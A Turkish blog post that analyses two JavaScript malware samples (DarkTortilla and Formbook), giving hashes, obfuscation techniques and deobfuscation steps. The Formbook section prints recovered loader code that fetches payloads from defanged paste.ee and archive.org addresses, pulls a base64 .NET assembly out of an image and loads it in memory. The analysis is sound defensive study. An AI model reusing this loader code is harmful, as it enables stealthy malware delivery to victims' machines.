<h1 style="text-align:center"> JavaScript Zararlı Yazılımları </h1>

Uzun bir aranın ardından zararlı yazılım analistlerinin çok sevdiği(!) JavaScript dilinde yazılmış zararlı yazılımları ve tersine mühendislik tekniklerini incelediğimiz bir yazı ile karşınızdayım. 
 
JavaScript, web tarayıcılarında çalışan, dinamik ve etkileşimli içeriklerin oluşturulmasını sağlayan yüksek seviyeli bir programlama dilidir. Özellikle istemci tarafında çalışması sayesinde web sayfalarına hareketlilik kazandırır; formlar, animasyonlar, kullanıcı etkileşimleri gibi birçok işlev JavaScript ile gerçekleştirilir. Modern uygulamalarda ise yalnızca tarayıcıda değil, Node.js gibi çalışma ortamları sayesinde sunucu tarafında da kullanılmaktadır.

Ancak JavaScript’in geniş kullanım alanı, saldırganlar için de cazip bir hedef hâline gelmiştir. Özellikle tarayıcı tabanlı saldırılarda (örneğin XSS – Cross-Site Scripting) veya zararlı reklamlar (malvertising) aracılığıyla JavaScript sıkça kötüye kullanılmaktadır. Ayrıca, JavaScript dosyalarının yorumlanabilir ve dinamik doğası, kötü amaçlı kodların gizlenmesini kolaylaştırır. Bu nedenle, JavaScript tabanlı zararlı yazılımları analiz ederken dilin temel yapısını ve çalışma mantığını anlamak büyük önem taşır.

Son yıllarda JavaScript ile oluşturulan zararlı yazılımlar sahada gördüğüm kadarıyla "obfuscation"a odaklanmış durumda, kod blokları 3-4 katman obfuscate edilerek genellikle son aşamada powershell veya farklı built-in yapıların yardımıyla cihaz üzerinde zararlı yazılımı çalıştırma tekniği ile ilerlemekte. Geçtiğimiz yıllarda daha çok anti-debug gibi teknikler kullanan saldırganlar artık bu yollara başvurmuyor. O yüzden eğer güncel bir JavaScript zararlı yazılımını inceleyecekseniz, 4-5 aşamalı tekniklere hazır olmakta fayda var. 

Bu yazıda çeşitli forum sitelerinden elde ettiğim ve analiz yazısına uygun teknikler içerdiğini düşündüğüm 2 adet zararlı yazılımı inceleyeceğiz. JavaScript konusunda uzman olduğumu iddia edemem, profesyonel kariyerimde çok fazla karşılaşmadığım bir yazılım dili olduğu için genellikle çeşitli forumlardan bulabildiğim tekniklerle analiz aşamalarını kendimce oluşturmaya çalışıyorum. Bu konuda bilgili olan okurlarımdan değerli bilgilerini ve püf noktalarını benimle paylaşmalarını bekliyorum :)

---


<h1 style="text-align:center"> Sample 1 (DarkTortilla) </h1>


Zararlı yazılımın hash değerleri ve indirebileceğiniz kaynak linki aşağıya bırakıyorum.

MD5: [d59e511ddc60cb9d264b524bec71cd89](https://bazaar.abuse.ch/sample/79b406f24b40b7fdf1b4ff5b629e9fd3a2033ff84f3792798627dee349324b24/)

SHA256: [79b406f24b40b7fdf1b4ff5b629e9fd3a2033ff84f3792798627dee349324b24](https://bazaar.abuse.ch/sample/79b406f24b40b7fdf1b4ff5b629e9fd3a2033ff84f3792798627dee349324b24/)

JavaScript yorumlayıcı ile çalışan bir dil olduğu için direkt olarak kaynak kodu text-editor araçları yardımıyla okuyabiliriz. İlgili zararlı yazılımı VSCode aracı ile incelediğimizde; saldırganların analizi zorlaştırmak için çokça kullandığı tekniklerden biri olan junk code veya büyük comment kısımları olduğunu tespit ediyoruz. Bu tarz yöntemler dosyanın boyutunu arttırarak kullanılan araçları yavaşlatmak, kod arasında gezinmeyi zorlaştırmak, otomatize araçları yavaşlatmak gibi amaçlarla kullanılmaktadır. 

Büyük encode(?) edilmiş veri bloğu olduğunu gördükten sonra kodun decode(?) ve execution yaptığı kısımları bulmak için kod üzerinde biraz geziniyoruz.



Büyük veri bloğunun ardında random isimlerle oluşturulmuş fonksiyon ve değişkenler bizi karşılıyor. Şaşırdık mı? Elbette hayır. Yorum satırlarının haricinde, analizi zorlaştırmak için **"unused declarations"** denilen teknik de zararlı yazılımda bulunmakta. Bu da yine kodun okunmasını zorlaştırmak için kullanılan tekniklerden birisidir. Bir değişken oluşturulur fakat sonrasında kullanılmaz veya farklı bir değişkene atanır ama kodun asıl algoritmasında hiç bir anlamı yoktur, yalnızca kod kalabalığı oluşturur. Bu tip kodlara genel olarak "junk-code" diyebiliriz. 

Ardından **"String.fromCharCode"** metodu ile birlikte bir decode işlemi yapıldığını tespit ediyoruz. Zararlı yazılım, değişkenlerin string değerlerini direkt olarak girmek yerine karmaşıklaştırarak karakter karakter stringi oluşturmaktadır. Bu da yine analizi zorlaştırmak ve otomatize analizden kaçınmak için kullanılan tekniklerden bir tanesidir.


Peki bu kadar karmaşıklık içerisinden nasıl çıkacağız? Kodun asıl amacını nasıl öğreneceğiz? Powershell üzerinde biraz script/algoritma denemeleri yaptıktan sonra çok optimize bir çözüm üretemedim, üreteceğim şey de çok optimal çalışacak bir sonuç olmayacak gibi görünüyordu, o yüzden biraz günümüz teknolojilerinden faydalanmanın güzel olabileceğini düşündüm. Elbette ben de yapay zekaya başvurdum :D ChatGPT ve Gemini kardeşler sağolsun, bana bu tip işlemler için belirli kütüphaneler olduğunu ve onların bu tarz konularda belirli yetenekleri olduğunu söyledi. Algoritmayı anlatması benden, kodu yazması kardeşlerimizden, sağolsunlar :D İlgili yorum satırlarını, kullanılmayan değişkenleri silen ve kodu okunabilir hale getiren scripte [**Github**](https://github.com/fatihbeyexe/JavaScript-Basic-Cleaner) adresimden ulaşabilirsiniz. İlgili scripti kullanmak için aşağıdaki adımları kullanarak bir Node.js projesi başlatıyoruz ve gerekli paketleri indiriyoruz. Kod içerisinde bulunan **"inputPath"** ve **"outputPath"** değişkenlerini üzerinden temizlemek istediğiniz ve sonrasında çıkan dosyayı kontrol edebilirsiniz.

```cmd
npm init -y
npm install @babel/core @babel/preset-env @babel/traverse @babel/parser
npm install prettier
cscript.exe //nologo cleaner.js
```

Scriptimiz sonucunda biraz daha temiz(!) ve okunabilir bir kod elde ediyoruz fakat hala **"String.fromCharCode"** metodları bulunuyor. Basitçe bir komut satırından "node" komutu ile interpreter açarak burada bulunan metodları çalıştırarak sonuçlarını elde edebilirsiniz. Mutlaka bunun için de otomatize bir araç vardır fakat analiz esnasında bununla uğraşmak istemedim.



Char değerlerini yerine yazarak fonksiyonları okunabilir hale getiriyoruz. İlk karşımıza çıkan fonksiyonda ActiveXObject kullanılarak bir **"XML"** objesi oluşturulduğu, ardından rastgele isimle bir bu obje üzerinden bir element oluşturduğunu tespit ediyoruz. Asıl önemli nokta burada **"dataType"**, onu da **"bin.base64"** şeklinde görüyoruz. Bu fonksiyonun temelde yaptığı işlem gelen parametreyi Base64 ile decode edip sonucu return etmektir.



Karşımızda çıkan ikinci fonksiyona baktığımızda yine ActiveXObject kullanılarak bir "Stream" objesi oluşturulduğunu ve bu obje üzerinden dosya oluşturup, içerisine veri yazılıp kaydedildiğini tespit ediyoruz. Hemen ardından 2 satırda bu fonksiyon çağrılarak "decodeBase64" fonksiyonundan gelen sonuçların dosyalara yazıldığını tespit ediyoruz.



Sonuç olarak scriptin bütününe baktığımızda; **"JsFileHandle ve XLSXFileHandle"** değişkenlerinde "Temp" dizini altında oluşturulacak olan dosyaların isimleri tutulmakta, scriptin başlangıcında bulunan iki değişken üzerinde tutulan değerler decode edilerek bu dosyalara yazılmakta, ardından bu dosyalar çalıştırılmakta.



Oluşturulan bu dosyaları basitçe elde etmek için scripti aşağıdaki gibi güncelleyerek çalıştırabiliriz. Burada direkt Base64 değerlerini kendimiz decode edip dosyaya da yazabiliriz haklısınız fakat farklı bir decode algoritması veya decrypt algoritması olması gibi durumlarda uyguladığımız bu taktik çok daha sağlıklı olacaktır. Aslında alışkanlık yani :D



```cmd
cscript.exe //nologo cleaned.js
```

Yukarıdaki komut ile güncellediğimiz scripti çalıştırdığımızda bulunduğumuz dizinde aşağıdaki hash değerlerine sahip iki adet dosya oluşmaktadır.

<h2 style="text-align:center"> Sample 1 - Stage 2 </h1>

audiodg.js

MD5: 5ed1793f3e672ce92b402f93f64cb91e

SHA256: b2fd4515eb793b36b3c166483fd7c86266842480f72697bbc01ef5e70f7d1386

xls.xlsx

MD5: 8819eb3bef38f374d00dee0f6294757f

SHA256: b54f5d7ea99a77651b650f8f7807cf4107d2a58540bc726c63e6244551e96df4

Gelin **"audiodg.js"** dosyasına göz atalım. Tekrar karşımıza kullanılmayan değişkenler ve bir muhtemel Base64 ile encode edilmiş bir veri çıkıyor. **"TVq"** değeri decode edildiğinde **"MZ"** olmaktadır, bu da executable dosyalarının magic byte değeridir. Yine de koda bakalım bu değerler ile ne yapılıyor anlayalım. 



Burada karşımıza farklı bir decode işlemi çıkıyor, **"String.fromCharCode"** gibi hazır fonksiyonlar yerine kod içerisinde bir fonksiyon oluşturularak runtime anında decode işlemi yapılmış. Basit bir CTRL+F ile **"basebase"** fonksiyonunu buluyoruz ve ne yaptığına bakıyoruz.



İlk 2 satırda yine kullanılmayan değişkenler oluşturulmuş, ardından return ile **"String.fromCharCode"** kullanılarak girilen değerden **"44"** çıkartılarak char değeri elde edilmiş yine son iki satır hiç çalışmayacak yani junk code. Kodumuzda bu fonksiyonun çağrıldığı kısımları manuel olarak değiştirebiliriz. 



Yine "node" komutu ile bir interpreter açıyoruz ve **"basebase"** fonksiyonumuzu çalıştırıyoruz. Ardından **"basebase"** kullanılan kısımları kopyala+yapıştır ile birlikte çalıştırıp sonucu elde ediyoruz.


Birinci aşamada kullandığımız teknikle bu scripti de temizleyip scriptin ne yapmaya çalıştığını anlıyoruz. ActiveXObject kullanılarak base64 decode ve dosyaya yazma işlemi yapılmış ardından bu dosya çalıştırılmış. İlgili dosya **"TEMP"** dizini altına **"svchost.exe"** olarak kaydedildiğini tespit ediyoruz.



Kod üzerinde basit bir güncelleme yaparak **"svchost.exe"** yi çalıştırmadan sadece bulunduğumuz dizine kaydedecek şekle getiriyoruz ve çalıştırıyoruz. 



Son aşamada ortaya çıkan zararlı yazılımın bilgileri aşağıdaki gibidir.

<h2 style="text-align:center"> Sample 1 - Stage 3 </h1>

svchost.exe

MD5: 117718d605fc83bf300615d0198726cc

SHA256: aad37a211a4b5c84d1a07881c707726ed142dbb43cab0397a4717c0251565917


---

<h1 style="text-align:center"> Sample 2 (Formbook) </h1>

Bu kısımda inceleyeceğimiz zararlı yazılımın bilgileri ve kaynağı aşağıdaki gibidir.

MD5: [c40c8fe4b4735114788cad8cf85b1205](https://bazaar.abuse.ch/sample/e38aae6be8a0206b1f65ebd508f7211027f5f0416e813ec9ac0caffd052b351d/)

SHA256: [e38aae6be8a0206b1f65ebd508f7211027f5f0416e813ec9ac0caffd052b351d](https://bazaar.abuse.ch/sample/e38aae6be8a0206b1f65ebd508f7211027f5f0416e813ec9ac0caffd052b351d/)

Son zamanlarda forumlarda paylaşılan zararlı yazılımların %80'i bu şekilde. Okunamayan karakterlerin bulunduğu uzunca değişkenler ve ardından **"replace"** ile değişkenlerin temizlenmesi. 



Kodun değişken oluşturma kısımlarını geçip en altına geldiğimizde ise **"GET"** anahtar kelimesini görebiliyoruz. Muhtemelen burada bir indirme işlemi yapıldığını düşündüğümüz için buradaki satırları yorum satırına alarak yalnızca değişkenleri yazdırmak için **"WScript.Echo()"** metodu ile birlikte değişkenlerin son hallerini direkt olarak elde edebiliriz. Burada bulunan **"alitrunk"** isimli değişken ActiveXObject ile oluşturulan bir **"MSXML2.ServerXMLHTTP"** objesi.



Yukarıda bahsettiğim teknikle birlikte değişkenleri elde ettiğimizde aşağıdaki sonuçları elde ediyoruz.

```javascript
grapestone = "open"
sacraries = "send"
sorrowe = "responseText"
cosmetology = "Function"
raretiesTratada = "http[:]//paste[.]ee/d[/]XUYsjP90/0"
```

Çözümlenen değişkenlerin ışığında **"raretiesTratada"** değişkeni içerisinde bulunan linkten bir veri bloğunun indirildiği, **"responseText"** içerisinde bulunan verinin bir fonksiyon olarak tanımlandığı ve ardından bu fonksiyonun çalıştırıldığını tespit ediyoruz. Evet bu kısım biraz karışık, JavaScript bunu yapmaya imkan veriyor, Powershell'deki **"-command"** veya **"IEX"** gibi düşünebilirsiniz.

<h2 style="text-align:center"> Sample 2 - Stage 2 </h1>

İlgili linkten indirilen zararlı yazılımı incelediğimizde yine benzer teknikle karmaşıklaştırdığını tespit ediyoruz. Yine hiç uğraşmadan yalnızca son satırda bulunan **"run"** kısmını yorum satırına alarak **"WScript.Echo(akala)"** komutunu ekleyerek scripti çalıştırıyoruz ve karşımıza Powershell komut satırı çıkıyor.



<h2 style="text-align:center"> Sample 2 - Stage 3 </h1>

İlgili Powershell scriptinde basitçe bir base64 değeri tanımlanmış ardından decode edilerek **"Invoke-Expression"** ile çalıştırılmış, buradaki veriyi decode ederek yeni aşamaya geçiyoruz.



<h2 style="text-align:center"> Sample 2 - Stage 4 </h1>

Burada aslında tek satır bir script bulunmakta fakat görsel kalabalığı oluşturmaması açısından kodu düzenledim. Gelin bu kodu adım adım analiz edelim;



```powershell
$potluck = '0/bA5qrGyK/d/ee.e#sap//:p##h';
$SqlDateTime = $potluck -replace '#', 't';

```
Burada muhtemelen dördüncü aşamada elde edilecek olan zararlı yazılım için parametre hazırlanıyor. Reverse halde bir **"paste[.]ee"** adresi elde ediliyor.

```powershell
$proctorship = 'https[:]//archive[.]org/download/new_image_20250516/new_image[.]jpg';
$intraclonal = New-Object System.Net.WebClient;
$intraclonal.Headers.Add('User-Agent','Mozilla/5.0');
$stickers = $intraclonal.DownloadData($proctorship);
$organises = [System.Text.Encoding]::UTF8.GetString($stickers);
```
Bu kod bloğunda **"proctorship"** değişkeninde bulunan adresten dosya indirmek için **"$intraclonal"** değişkeni oluşturup bu değişkene **"New-Object System.Net.WebClient"** komutu ile WebClient türünde bir obje atanıyor. Son iki satırda ise adreste bulunan veri **"$stickers"** değişkenine indiriliyor ve UTF8 formatına çevrilerek **"$organises"** değişkenine yazılıyor.

```powershell
$vacillancy = '<<BASE64_START>>';
$knockwursts = '<<BASE64_END>>';
$gingall = $organises.IndexOf($vacillancy);
$slitless = $organises.IndexOf($knockwursts);
$gingall -ge 0 -and $slitless -gt $gingall;
$gingall += $vacillancy.Length;
$followdays = $slitless - $gingall;
$Messina = $organises.Substring($gingall, $followdays);
$thrivingness = [System.Convert]::FromBase64String($Messina);
$schemata = [System.Reflection.Assembly]::Load($thrivingness);
```

Yukarıdaki kod bloğunda; **"$vacillancy ve $knockwursts"** değişkenleri indirilen veri içerisinde bulunan Base64 blob'unun başlangıc ve sonunu belirlemek için kullanılmaktadır. **"$gingall ve $slitless"** değişkenleri üzerinde başlangıç ve bitiş indexleri tutulmaktadır. Sonrasında **"-ge"** ve **"-gt"** komutlarıyla dosyanın sağlıklı şekilde indirildiği kontrol ediliyor. Eğer dosya indirilmezse buradaki index değerleri 0(veya NULL) olacağı için sorguyu geçemeyecektir. 

Ardından bu index değerleri kullanılarak **"Substring"** metodu yardımıyla Base64 blob'u ayrıştırılarak **"$Messina"** değişkenine atanıyor. Son iki satırda ise bu Base64 decode edilip runtime modülü olarak yüklenmiştir. Powershell **".NET"** dilinde yazılan bir platform olduğu için native olarak ".NET" dilinde yazılan kodları hafızasında direkt olarak çalıştırabilmektedir. 

```powershell
$tribble = [dnlib.IO.Home].GetMethod('VAI').Invoke($null, [object[]] @($SqlDateTime,'1','C[:]\Users\Public\Downloads','runnet','MSBuild','','','','','','','js','','','','2',''))
```

Yukarıdaki satırda ise yüklenilen modül içerisinde bulunan **"VAI"** metodu belirtilen parametreler ile çalıştırılmıştır.

Aşağıdaki görselde indirilen görsel dosyası bulunmaktadır. Bakıldığında normal bir görsel olarak gözükse de siyah kısımlarda Base64 verisi bulunmakta, görsel dosyalarının magic byte'ları manipüle edilerek boyutu arttırılıp bu kısımlara farklı veriler yazılabilmektedir. Oldukça sıklıkla kullanılan bir tekniktir.


İlgili Base64 verisinin görsel içerisinde başlangıç noktasını çeşitli hex editor araçlarıyla görüntüleyebilirsiniz.

